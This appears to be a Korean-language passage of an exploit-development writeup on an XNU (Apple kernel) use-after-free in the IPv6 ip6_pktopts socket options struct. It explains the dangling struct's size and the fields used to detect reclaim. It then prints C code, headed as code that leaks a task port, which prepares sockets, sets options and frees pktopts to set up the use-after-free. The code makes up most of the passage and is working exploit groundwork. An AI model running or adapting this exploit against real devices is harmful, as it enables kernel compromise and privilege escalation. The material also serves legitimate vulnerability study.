 dangling되는 구조체 `ip6_pktopts`의 크기는 192입니다.

이 구조체를 포함하는 헤더 파일을 찾지 못해, 어쩔 수 없이 전체 구조체를 복사해서 사용했습니다.

그 후 `sizeof()` 함수를 호출하여 크기를 계산했습니다.

여기서는 구조체 멤버 분포에 따라 `ip6po_minmtu`와 `ip6po_prefer_tempaddr`를 선택해 조합했으며,

동시에 커널 포인터 특성을 추가하여 판별할 수 있습니다.

### task port를 leak 시키는 코드

[https://github.com/wh1te4ever/xnu_1day_practice/commit/35a968930c82a6f9c82948841bcc053b2ff906c9](https://github.com/wh1te4ever/xnu_1day_practice/commit/35a968930c82a6f9c82948841bcc053b2ff906c9)

```c
#include <stdio.h>
#include <stdint.h>
#include <stdbool.h>
#include <mach/mach.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <errno.h>

#include "helper.h"
#include "iosurface.h"
#include "exp.h"

/* int; prefer temporary addresses as the source address. */
#define IPV6_PREFER_TEMPADDR    63

#define IPV6_USE_MIN_MTU        42 /* bool; send packets at the minimum MTU */

struct ool_msg  {
    mach_msg_header_t hdr;
    mach_msg_body_t body;
    mach_msg_ool_ports_descriptor_t ool_ports;
};

int get_socket() {
    int sock = socket(AF_INET6, SOCK_STREAM, IPPROTO_TCP);
    if (sock < 0) {
        printf("[-] Can't get socket, error %d (%s)\n", errno, strerror(errno));
        return -1;
    }
    
    // allow setsockopt() after disconnect()
    struct so_np_extensions sonpx = {.npx_flags = SONPX_SETOPTSHUT, .npx_mask = SONPX_SETOPTSHUT};
    int ret = setsockopt(sock, SOL_SOCKET, SO_NP_EXTENSIONS, &sonpx, sizeof(sonpx));
    if (ret) {
        printf("[-] setsockopt() failed, error %d (%s)\n", errno, strerror(errno));
        return -1;
    }
    
    return sock;
}

// utilities to manipulate sockets
int set_minmtu(int sock, int *minmtu) {
    return setsockopt(sock, IPPROTO_IPV6, IPV6_USE_MIN_MTU, minmtu, sizeof(*minmtu));
}

// free the pktopts struct of the socket to get ready for UAF
int free_socket_options(int sock) {
    return disconnectx(sock, 0, 0);
}
```